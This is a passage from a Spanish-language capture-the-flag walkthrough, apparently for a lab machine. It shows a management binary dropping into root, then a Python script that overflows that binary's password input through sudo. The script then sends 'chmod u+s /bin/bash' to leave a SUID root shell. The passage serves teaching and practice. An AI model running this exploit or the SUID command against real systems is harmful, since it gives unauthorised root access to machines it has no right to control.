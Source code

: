 Info:

```
############################################################
#      Sistema de Gestión - Modo Usuario/Admin             #
############################################################

Escribe la contraseña: 
[+] Estás en modo administrador

[+] Modo administrador activado.
uid=0(root) gid=0(root) groups=0(root)
Escribe un comando:
```

Vemos que se esta ejecutando todo correctamente, por lo que ahora nos copiaremos este script y nos lo pasaremos a la maquina victima donde esta el binario `manager`, haremos lo siguiente:

```shell
nano /tmp/exploit.py

#Dentro del nano
#!/bin/python3

import subprocess

offset = 76

RIP = b"A" * offset

root = b"\x74\x6f\x6f\x72"

command = b"chmod u+s /bin/bash"

payload = RIP + root

program = ["sudo", "/usr/local/bin/manager"]

process = subprocess.Popen(
    program, stdin=subprocess.PIPE
)

process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

process.stdin.write(command + b"\n")
process.stdin.flush()

process.wait()
```

Y si ejecutamos esto de la siguiente forma:

```shell
python3 /tmp/exploit.py
```
